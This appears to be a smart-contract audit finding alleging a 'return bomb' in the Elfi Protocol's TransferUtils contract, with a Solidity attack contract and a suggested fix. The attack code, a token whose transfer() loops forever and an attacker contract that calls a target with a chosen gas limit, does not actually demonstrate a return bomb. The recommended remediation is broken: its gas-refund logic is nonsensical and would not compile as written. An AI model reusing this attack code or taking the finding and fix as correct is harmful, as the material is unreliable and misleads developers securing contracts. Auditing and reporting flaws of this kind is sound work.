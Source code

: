 Joyous Blush Parakeet

high

# Elfi Protocol Return Bomb

## Summary  Possible Return Bomb

## Vulnerability Detail  A return bomb can lead to unlimited gas consumption, causing a contract to run out of gas and potentially drain user funds. 

Sample Poc an attack could use: 

pragma solidity ^0.8.0;

interface IERC20 {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

contract MaliciousToken is IERC20 {
    // Malicious implementation of the transfer function
    function transfer(address recipient, uint256 amount) external override returns (bool) {
        // Intentionally consume all gas
        while (true) {
            // Infinite loop consuming gas
        }
    }
}

contract Attacker {
    function attack(address target, IERC20 token, address to, uint256 amount, uint256 gasLimit) external returns (bool) {
        bytes memory data = abi.encodeWithSelector(token.transfer.selector, to, amount);
        // Call the target function with a gas limit
        (bool success, ) = target.call{ gas: gasLimit }(data);
        // Return success status of the call
        return success;
    }
}


## Impact  High 

## Code Snippet  https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/utils/TransferUtils.sol#L21-31

## Tool used Slither 

Manual Review

## Recommendation   Try to limit gas usage: 

Limit Gas Usage: Instead of allowing arbitrary gas limits to be passed to the call function, consider setting a reasonable upper limit on the gas that can be consumed. This prevents excessive gas consumption and mitigates the risk of a gas limit bomb from an attacker. 

Example: 

function transferWithGasLimit(IERC20 token, address to, uint256 amount, uint256 gasLimit) internal returns (bool) {
    bytes memory data = abi.encodeWithSelector(token.transfer.selector, to, amount);
    
    // Limit gas usage to prevent gas limit bomb
    require(gasLimit <= 50000, "Gas limit exceeds maximum allowed");
    
    uint256 startGas = gasleft();
    (bool success, bytes memory returnData) = address(token).call{ gas: gasLimit }(data);
    uint256 gasUsed = startGas - gasleft();

    // Refund unused gas
    if (gasUsed < gasLimit) {
        msg.sender.transfer(gasUsed * tx.gasprice);
    }
    
    if (!success) {
        return false;
    }
    if (returnData.length > 0 && !abi.decode(returnData, (bool))) {
        return false;
    }
    return true;
}



